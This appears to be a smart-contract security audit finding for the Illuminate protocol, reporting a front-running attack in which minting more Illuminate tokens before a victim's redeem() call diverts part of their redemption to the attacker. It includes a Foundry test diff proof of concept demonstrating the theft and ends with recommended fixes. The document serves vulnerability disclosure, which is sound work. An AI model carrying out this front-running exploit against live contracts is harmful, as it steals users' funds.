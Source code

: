 Holmgren

high

# Users' redemptions of Illuminate can be hijacked by front-running and minting more Illuminate

## Summary

`Redeemer.redeem(...)` (Illuminate variant) is vulnerable to frontrunning with `Lender.mint(...)`.

## Vulnerability Detail

Assume that an attacker noticed a pending transaction by an honest user to `redeem()` Illuminate tokens (https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L403). The attacker can front-run this transaction and quickly mint more Illuminate tokens (https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L270) for the given underlier and maturity, thus increasing the total supply of such tokens without increasing `Redeemer`'s `holdings`. The honest user will receive less than his fair share of the `Redeemer`'s holdings for that underlier and maturity. The attacker can then `redeem()` the external principal token for which he had minted Illuminate. He will then be able to `redeem()` his Illuminate tokens for an inflated amount of the underlying.

## Impact

Any attacker sophisticated enough to perform front-running can steal part of other users' redemptions.

## Code Snippet
PoC:
```diff
diff --git a/test/fork/Redeemer.t.sol b/test/fork/Redeemer.t.sol
index 5866ea2..03fd710 100644
--- a/test/fork/Redeemer.t.sol
+++ b/test/fork/Redeemer.t.sol
@@ -103,7 +103,7 @@ contract RedeemerTest is Test {
         vm.startPrank(msg.sender);
     }
 
-    function testIlluminateRedeem() public {
+    function testIlluminateRedeem_frontrun() public {
         // deploy market
         deployMarket(Contracts.USDC, 0);
 
@@ -119,7 +119,7 @@ contract RedeemerTest is Test {
 
             // approve lender to transfer principal tokens
             vm.startPrank(address(l));
-            IERC20(principalToken).approve(address(r), startingBalance);
+            IERC20(principalToken).approve(address(r), type(uint256).max);
             vm.stopPrank();
 
             vm.startPrank(msg.sender);
@@ -132,18 +132,31 @@ contract RedeemerTest is Test {
         address illuminateToken = mp.markets(Contracts.USDC, maturity, 0);
         deal(illuminateToken, msg.sender, startingBalance, true);
 
-        // run the contract from msg.sender
-        vm.startPrank(msg.sender);
+        address attacker = 0x7111F9Aeb2C1b9344EC274780dc9e3806bdc60Ef;
+        // The attacker has some external Principal Tokens to begin with
+        deal(Contracts.YIELD_TOKEN, attacker, startingBalance);
 
-        // execute the redemption
+        // The attacker front-runs and inserts this transaction
+        vm.startPrank(attacker);
+        IERC20(Contracts.YIELD_TOKEN).approve(address(l), type(uint256).max);
+        l.mint(2, Contracts.USDC, maturity, startingBalance);
+        vm.stopPrank();
+
+        // The original legitimate transaction that attacker has front-ran
+        vm.startPrank(msg.sender);
         r.redeem(Contracts.USDC, maturity);
         vm.stopPrank();
 
-        // verify user received their tokens
-        assertEq(IERC20(Contracts.USDC).balanceOf(msg.sender), startingBalance);
+        // The second transaction perfromed by attacker - after the original user's transaction
+        vm.startPrank(attacker);
+        r.redeem(2, Contracts.USDC, maturity);
+        r.redeem(Contracts.USDC, maturity);
+        vm.stopPrank();
 
-        // verify that the user's illuminate tokens were burned
-        assertEq(IERC20(illuminateToken).balanceOf(msg.sender), 0);
+        // The user received only half of his fair share of the underlying
+        assertEq(IERC20(Contracts.USDC).balanceOf(msg.sender), startingBalance/2);
+        // The attacker received 150% of his fair share of the underlying
+        assertEq(IERC20(Contracts.USDC).balanceOf(attacker), startingBalance * 3/2);
     }
 
     // note these tests are not passing because the contract is paused on mainnet
```
## Tool used

Manual Review

## Recommendation

* Disallow minting new Illuminate Tokens at or after maturity. Not only in `Lender.mint()` but also in all the variants of `Lender.lend(...)`
* Add another argument to `redeem()`: minimum acceptable amount of the underlying received by the caller.
